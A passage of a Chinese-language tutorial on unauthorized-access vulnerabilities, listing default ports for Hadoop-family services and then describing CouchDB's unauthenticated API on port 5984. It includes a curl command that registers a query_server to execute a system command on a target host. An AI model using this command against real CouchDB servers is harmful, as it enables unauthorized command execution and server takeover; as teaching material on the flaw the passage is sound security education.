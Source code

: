d)YARN（JobTracker）

master 默认端口 60010  

regionserver 默认端口60030  

e)hive-server2 默认端口 10000  

f)spark-jdbcserver 默认端口 10003  

## 0x09 CouchDB 未授权访问  

### 9.1 漏洞描述

CouchDB 默认在 5984 端口开放 Restful 的 API 接口，用于数据库的管理功能。其 HTTP Server 默认开启时没有进行验证，而且绑定在0.0.0.0，所有用户均可通过 API 访问导致未授权访问。任何连接到服务器端口上的人，都可以调用相关 API 对服务器上的数据进行任意的增删改查，其中通过 API 修改 local.ini 配置文件，可进一步导致执行任意系统命令，获取服务器权限！  

### 9.2 漏洞利用

![](../pictures/notauthority14.png)   

新增query_server配置，这里执行ifconfig命令  

`curl -X PUT 'http://x.x.x.x:5984/_config/query_servers/cmd' -d '"/sbin/ifconfig >/tmp/6666"'`  
新建一个临时表，插入一条记录  

![](../pictures/notauthority15.png)   
